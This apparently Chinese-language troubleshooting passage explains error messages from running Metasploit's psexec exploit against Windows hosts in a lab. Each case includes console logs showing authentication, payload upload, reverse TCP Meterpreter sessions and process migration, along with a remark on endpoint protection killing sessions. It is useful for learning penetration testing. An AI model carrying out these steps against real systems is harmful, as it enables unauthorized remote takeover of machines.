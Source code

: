 

### (22) System Center Endpoint Protection

报错原因：能够正常工作，但是由于目标主机上运行着System Center Endpoint Protection并开启着恶意行为检测功能，所以执行成功后也获取不到Session。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse TCP handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.109:445 as user 'administrator'...[*] Selecting PowerShell target[*] Executing the payload...[+] Service start timed out, OK if running a command or non-service executable...[*] Exploit completed, but no session was created.
```

又或者得到Session后立马又给断开了，用进程迁移模块也一样被检测到了，行为检测！

```
msf exploit(windows/smb/psexec) > exploit 
[*] Started reverse TCP handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.109:445 as user 'administrator'...[*] Selecting PowerShell target[*] Executing the payload...[+] Service start timed out, OK if running a command or non-service executable...[*] Sending stage (205891 bytes) to 192.168.1.109[*] Meterpreter session 1 opened (192.168.1.120:4444 -> 192.168.1.109:49466) at 2018-05-15 06:04:39 +0800
meterpreter > [*] Session ID 1 (192.168.1.120:4444 -> 192.168.1.109:49466) processing AutoRunScript 'post/windows/manage/migrate NAME=notepad.exe'[*] Running module against 123456[*] Current server process: powershell.exe (4364)[*] Spawning notepad.exe process to migrate to[+] Migrating to 1192[+] Successfully migrated to process 1192
[*] 192.168.1.109 - Meterpreter session 1 closed.  Reason: Died
```



### (23) The remote host has only provided us with Guest privileges. Please make sure that the correct username and password have been provided. Windows XP systems that are not part of a domain will only provide Guest privileges to network logins by default.

报错原因：失败！远程主机仅向我们提供访客权限。请确保提供了正确的用户名和密码。不属于域的Windows XP系统默认情况下仅为网络登录提供访客权限。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.103:445|WORKGROUP as user 'Guest'...
[-] FAILED! The remote host has only provided us with Guest privileges. Please make sure that the correct username and password have been provided. Windows XP systems that are not part of a domain will only provide Guest privileges to network logins by default.
```



### (24) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_CANNOT_DELETE (Command=6 WordCount=0)

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444 [*] Connecting to the server...[*] Authenticating to 192.168.1.103:445|WORKGROUP as user '90sec'...[*] Uploading payload...[*] Created \ilIfTitm.exe...[+] 192.168.1.103:445 - Service started successfully...[*] Deleting \ilIfTitm.exe...[-] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_CANNOT_DELETE (Command=6 WordCount=0)
```



